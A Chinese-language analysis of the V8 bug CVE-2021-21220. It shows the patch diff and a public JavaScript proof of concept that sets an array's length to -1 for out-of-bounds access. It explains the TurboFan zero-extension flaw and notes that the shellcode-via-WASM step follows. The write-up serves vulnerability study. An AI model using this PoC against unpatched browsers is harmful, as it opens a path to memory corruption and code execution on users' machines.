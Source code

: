 # CVE-2021-21220漏洞分析


该漏洞在Pwn2Own 2021中被利用，提交者在[相关issue](https://bugs.chromium.org/p/chromium/issues/detail?id=1196683)中提交了exploit；关于漏洞的修补可以查看对应[commit](https://chromium.googlesource.com/v8/v8/+/3066b7b2fcb3aa66541a4818e1165e34acc52639%5E%21/)

从diff结果可以看出修补的措施很简单；在修补之前，opcode可能为kX64Movsxlq，对应符号扩展；也可能为kX64Movl，对应零扩展

```diff
diff --git [a/src/compiler/backend/x64/instruction-selector-x64.cc](https://chromium.googlesource.com/v8/v8/+/720176a523544721973a8ceba89e9c7af9405963/src/compiler/backend/x64/instruction-selector-x64.cc) [b/src/compiler/backend/x64/instruction-selector-x64.cc](https://chromium.googlesource.com/v8/v8/+/3066b7b2fcb3aa66541a4818e1165e34acc52639/src/compiler/backend/x64/instruction-selector-x64.cc)
index 7df4fcb..424edf5 100644
--- a/src/compiler/backend/x64/instruction-selector-x64.cc
+++ b/src/compiler/backend/x64/instruction-selector-x64.cc

@@ -1279,7 +1279,9 @@
         opcode = load_rep.IsSigned() ? kX64Movsxwq : kX64Movzxwq;
         break;
       case MachineRepresentation::kWord32:
-        opcode = load_rep.IsSigned() ? kX64Movsxlq : kX64Movl;
+        // ChangeInt32ToInt64 must interpret its input as a _signed_ 32-bit
+        // integer, so here we must sign-extend the loaded value in any case.
+        opcode = kX64Movsxlq;
         break;
       default:
         UNREACHABLE();
```

网上的poc有很多，这里仅贴出其中之一

```js
glob = {};
function foo(flag) {
    let bad = b[0] ^ 0;
    bad += 1;
    let i = Math.max(Math.max(0, bad) - 0x7fffffff, 0) >> 1;  // expected: 0, actual: 1 
    glob[i] = 1;
    if (flag) {
        i = -1;
    }
    let v4 = Math.sign(i);
    v4 = Math.sign(i) < 0 ? 0 : v4;
    let v5 = new Array(v4);
    v5.shift();
    return v5;
}
var b = new Uint32Array([0x80000000]);
for (let i = 0; i < 200000; ++i) {
    foo(true);
}
oob = foo(false);
```

执行poc脚本，结果如下

![](https://raw.githubusercontent.com/Khoroamu/pictures/master/pic/Pasted%20image%2020220515161132.png "poc执行结果")

可以看见oob数组的长度为-1；漏洞出现在以下代码的编译优化阶段

```js
let bad = b[0] ^ 0;
bad += 1;
```

使用Turbolizer查看foo函数编译优化各阶段的graph；在SimplifiedLowering阶段中，漏洞代码对应的nodes如下：

![](https://raw.githubusercontent.com/Khoroamu/pictures/master/pic/Pasted%20image%2020220516014632.png)

在EarlyOptimization阶段中可以观察到，**ChangeInt32ToInt64**节点的输入由之前的**Signed32**变为了**Unsigned32**，这就是**漏洞点**所在

![](https://raw.githubusercontent.com/Khoroamu/pictures/master/pic/Pasted%20image%2020220516014212.png)

结合diff文件中修补前的内容，得知对于ChangeInt32ToInt64节点而言，如果输入类型为Unsigned，opcode将选择**kX64Movl**；kX64Movl相当于mov指令，它使输入在ChangeInt32ToInt64节点中作**零扩展**

这有什么影响呢？对于poc脚本中的b[0]（即**0x80000000**），当其作符号扩展时，结果为**0xFFFF FFFF 8000 0000**；当其作零扩展时，结果为**0x0000 0000 8000 0000**；容易看出，前者为负，后者为正

在编译优化进行之前，因为对**b[0] ^ 0**结果进行的是符号扩展，所以以下代码的结果为0；但在编译优化进行之后，因为对**b[0] ^ 0**结果进行的是零扩展，所以以下代码的结果应为1（即**2 >> 1**）

```js
let i = Math.max(Math.max(0, bad) - 0x7fffffff, 0) >> 1;  // expected: 0, actual: 1
```

在执行以下代码时，因为foo函数已经过编译优化，且传入的flag为false，所以得到的v5应为一个长度为1的Array；这是TurboFan预期之外的，因为在此之前foo函数的200000次执行中，v5的长度均为0

```js
oob = foo(false);
```

观察编译优化后shift函数对应的汇编代码，可以看到**movl [rdi+0xb],0xfffffffe**，它将0xfffffffe写入[rdi+0xb]中

![](https://raw.githubusercontent.com/Khoroamu/pictures/master/pic/Pasted%20image%2020220516030757.png)

V8中的指针为[[V8 tagged value|tagged value]]，最低位为1；而rdi中保存的就是一个Array对象的指针，因此其最低位也为1；V8中数组对象的数据结构如下图，图中每个长方形代表的长度为4字节

![](https://raw.githubusercontent.com/Khoroamu/pictures/master/pic/Pasted%20image%2020220516033130.png)

综上所述，**rdi+0xb**实际为数组对象中的length字段的指针，而movl [rdi+0xb],0xfffffffe则是向length字段写入0xfffffffe；在V8中，Smi也是**tagged value**，与指针的区别是Smi的最低位为0；因此0xfffffffe代表的值实际为-1，即优化后所得的汇编程序将v5的长度设置为了-1

为什么数组长度会变为-1？因为编译优化在很大程度上是根据之前解释执行时收集的数据类型信息来进行的；在之前foo函数的多次执行中，v5的长度总为0，所以TurboFan记住了这一点；而shift函数将数组的第一个元素从数组中取出，并将数组长度length减1；因此在修改数组长度时总是进行**0-1**的计算，TurboFan为了提高性能，进行了**常量折叠**，即在为数组长度赋值时，直接向length字段写入0xfffffffe

至于为什么数组长度为0时，shift函数还要将length减1，可能需要看看shift源码才能够解释了

在编译优化后，"意外"地出现了一个长度为1的v5数组，由此导致了oob

之后的利用很常见，将shellcode写入WASM对应的RXW段并执行即可，可见[[V8利用AAR&AAW原语]]和[[V8利用shellcode的写入]]

